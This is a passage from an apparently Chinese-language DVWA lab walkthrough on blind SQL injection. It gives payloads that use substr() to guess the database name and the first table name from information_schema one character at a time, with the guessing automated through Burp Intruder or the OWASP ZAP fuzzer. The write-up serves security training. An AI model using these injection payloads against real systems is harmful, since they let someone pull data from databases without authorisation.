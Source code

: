 3.  使用“substr()”判断数据库名“ 1' and substr(database(),1,1) = 'a'# ”

    ![sib8](/images/dvwa2/sib8.jpg)

    同样可以放到burp里面去枚举

    ![sib9](/images/dvwa2/sib9.jpg)

    将payload按序排号就可以得到数据库名“dvwa”

4.  输入“ 1' and substr((select table_name from information_schema.tables where table_schema = 'dvwa' limit 0,1),1,1) = 'g'# ”获取当前的数据表名（因为burp社区版intruder太慢，用了OWASP ZAP Proxy的fuzzer）

    ![sib10](/images/dvwa2/sib10.jpg)
